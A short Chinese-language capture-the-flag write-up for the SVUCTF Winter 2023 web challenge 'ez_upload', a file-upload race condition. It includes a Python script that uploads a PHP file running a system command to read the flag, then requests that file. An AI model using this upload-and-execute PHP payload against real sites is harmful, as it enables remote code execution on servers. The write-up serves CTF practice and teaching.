 # 上传？上传！

- 作者：Cee
- 参考：SVUCTF-WINTER-2023
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：[svuctf-winter-2023/ez_upload](https://ghcr.io/svuctf/svuctf-winter-2023/ez_upload:latest)
- 端口：80

## 题目描述

老表说这一题很ez

## 题目解析

文件上传的条件竞争 Enjoy your Happy New Year Day! Best wishes!!!

题目可以使用两种解决办法 一种是python脚本 一种是使用burp

脚本如下

```python
import requests
import concurrent.futures
import threading

url = "" #填写你的url
session = requests.session()

# upload file
files = {'upload': ('xxx.php', '<?php system("cat ../../flag");')}
try:
    session.post(url=url, files=files, timeout=1)
except requests.exceptions.ReadTimeout:
    pass

# access file
resp = session.get(f"{url}/upload/xxx.php")  # 你的shell php
print(resp.text)
```

burp suite 的使用方法有空教你们 原理大差不差 都是竞争
